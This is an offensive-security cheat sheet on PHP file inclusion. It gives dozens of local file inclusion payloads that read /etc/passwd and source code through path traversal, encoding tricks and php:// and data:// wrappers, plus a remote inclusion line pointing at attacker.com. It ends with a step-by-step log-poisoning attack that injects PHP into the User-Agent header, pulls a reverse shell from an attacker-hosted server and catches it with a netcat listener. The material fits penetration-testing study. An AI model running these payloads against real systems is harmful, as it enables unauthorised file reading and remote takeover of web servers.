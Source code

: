 ```yaml
---
title: File Inclusion
desc: 
tags: [Burp, LFI, Netcat, Reverse Shell, RFI, Web]
alts: [Directory-Traversal, Reverse-Shell]
render_with_liquid: false
---
```


## 1. Local File Inclusion (LFI)

```sh
/index.php?page=/etc/passwd
/index.php?page=../../../../etc/passwd
/index.php?page=../../../../../etc/passwd
/index.php?page=..//..//..//..//..//etc/passwd
/index.php?page=../../../../../../../../../../../../../../etc/passwd
/index.php?page=..%5c..%5c..%5c..%5cetc/passwd
/index.php?page=..%252f..%252f..%252f..%252fetc/passwd
/index.php?page=/etc/passwd%00
/index.php?page=/etc/passwd%00.inc
/index.php?page=/etc/passwd%00.php
/index.php?page=http://localhost/index
/index.php?page=http:%5c%5cindex
/index.php?page=http:%252f%252findex
/index.php?page=somedir/../../../../etc/passwd&ext=

# PHP Filter
/index.php?page=php://filter/resource=/etc/passwd
/index.php?page=php://filter/read=string.rot13/resource=index.php
/index.php?page=php://filter/convert.base64-encode/resource=index.php
/index.php?page=pHp://filter/convert.base64-encode/resource=index.php
/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
/index.php?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# Windows
/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## 2. Remote File Inclusion (RFI)

```
/index.php?page=//attacker.com/exploit
```

<br />

## 3. Log Poisoning

1. **Check if You Can Access the Apache Log File**

    ```
    /index.php?page=../../../../var/log/apache2/access.log
    ```

2. **Prepare the Payload for PHP Reverse Shell**

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit the values in the payload
    $ip = '<attacker-ip>';
    $port = 4444;
    ```

3. **Open Web Server in Your Local Machine**

    By doing so, 

    ```sh
    python -m http.server 80
    ```

4. **Inject PHP Payload in the User-Agent**

    Send the GET Request with abusing the User-Agent.  
    The payload can be uploaded to the "/shell.php" of the target website.

    ```
    GET / HTTP/1.1
    ...
    User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
    ```

5. **Apply the Injection**

    To do so, refresh the page "/index.php?page=../../../../var/log/apache2/access.log".

6. **Open Listener for Reverse Shell**

    In you local machine, open the listener.  
    You need to specify the port which you set the section 2.

    ```sh
    nc -lvnp 4444
    ```

7. **Gain Access to Shell**

    Access to "/shell.php" of the target website.  
    If it goes well, you can get a shell.